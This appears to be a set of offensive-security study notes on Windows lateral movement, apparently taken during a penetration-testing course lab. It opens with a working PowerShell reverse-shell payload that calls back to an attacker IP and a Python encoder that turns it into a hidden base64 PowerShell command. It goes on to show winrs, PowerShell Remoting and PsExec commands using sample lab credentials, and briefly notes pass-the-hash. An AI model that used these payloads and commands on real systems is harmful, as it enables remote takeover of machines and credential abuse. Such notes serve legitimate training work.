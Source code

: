 payload = '$client = New-Object System.Net.Sockets.TCPClient("<myip>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

and now we run:
python3 encode.py
to get the payload

WinRM can be employed for remote management::Microsoft version of WS-Management
exchange XML over HTTP and HTTPS on port 5985 5986 respectively

winrs Windows Remote Shell:
winrs -r:<targethost> -u:<username> -p:<password> "cmd /c <payload>"

PowerShell has WinRM::PowerShell Remoting
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <targethost> -Credential $credential

and on the target host we can just 
Enter-PSSession <session ID>


PsExec

part of the SysInternals suite 

1. admin user
2. ADMIN$ avalible
3. File and Printer Sharing on

2 && 3 are default on morden windows

to RCE PsExec:
- writes psexesvc.exe into C:\Windows
- Creates a service on the remote host
- runs command as a child of psexesvc.exe

PsExec is not default on Windows

.\PsExec64.exe -i  \\<targethostname> -u <domain>\<user> -p <password> cmd
example:
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd


Pass The Hash

using user NTLM hash instead of plain text when rockyou no work

only work for NTLM using service, if Kerbereos it's not going to work
